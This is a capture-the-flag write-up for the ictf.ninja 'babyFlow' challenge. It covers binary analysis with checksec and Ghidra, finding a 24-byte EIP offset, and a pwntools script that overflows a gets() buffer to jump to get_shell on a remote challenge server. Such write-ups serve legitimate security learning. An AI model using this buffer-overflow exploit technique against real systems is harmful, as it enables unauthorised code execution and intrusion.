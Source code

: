 ```yaml
---
layout: post
title: "babyFlow"
date: 2023-02-18
categories: [ctf, challenge-pwn]
image: /assets/img/ctf/ictf.ninja/pwn/babyFlow/flag.png
---
```


# ictf.ninja -  babyFlow

*Category : Binary Exploitation*

Challenge called babyFlow that was done in this writeup

Let start by analyze binary with File command
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/babyFlow.png)


From above, File Command give us three descriptions in which
- The file is running under architecture of 32 bit
- The word dynamically linked meaning that some functions are loaded from my pc
- The word not stripped meaning that binary functions' name are preserved

Let check security of binary and i can see that it is basically doesnot have any security that i need to worry about it
```
➜  pwn checksec babyFlow
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[*] '/home/blackninja23/Documents/ctf/ninjactf/pwn/babyFlow'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```


Open binary with ghidra, i can see that function get is used
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/gets.png)

Use manual page of linux, `man gets`,i can see that it is vulnerable to buffer overflow
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/getsvuln.png)

Verify by sending more 'A's to the inputs and i got segmentation fault in which it is meaning to be overflow of buffer
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/bufferoverflow.png)

Analyze more in ghidra, i can see that i have function called get_shell in which it gives shell
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/getshell.png)

With Logic that i have is that i need to overflow butter to the instruction pointer and give instruction pointer that address of get_shell so as to get shell

But first i need to find offset in which i would fill before affect instruction pointer.

With this, I will use cyclic command to generate random characters with different value after 4 bytes
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/offset.png)

Second, I will use pwndbg to run my binary then send those value of size 100
*Command*
```
gdb ./babyFlow
```
After send those value, i can see that EIP take value of 'gaaa'(0x61616167)
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/EIP.png)

Use cyclic command, we can get offset of value 24
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/EIPo.png)

First I would check if i can overwrite after 24 bytes sent and so we generate random value of 'A','B','C'

```
➜  pwn python3 -c 'print("A"*24+"B"*4)'
AAAAAAAAAAAAAAAAAAAAAAAABBBB
```

By checking, i can see that i can overwrite its value of 'B'
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/EIPOverwrite.png)

i need to send address of get_shell instead of value of 'B'

At this point, i will write python script in which i would send random 24 bytes and its address after 24 bytes and i will got shell on server but keep in mind, i already test it on binary
```
from pwn import *
add = ELF('./babyFlow')
#e = process('./babyFlow')
host = "143.198.219.171"
port = 5000
e = remote(host,port)
offset = 24
payload = b'A'* offset
payload +=p32(add.symbols['get_shell'])
print(add.symbols['get_shell'])
print(payload)
print(e.recvuntil(b'\n'))

e.sendline(payload)

e.interactive()
```

I got flag
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/flag.png)
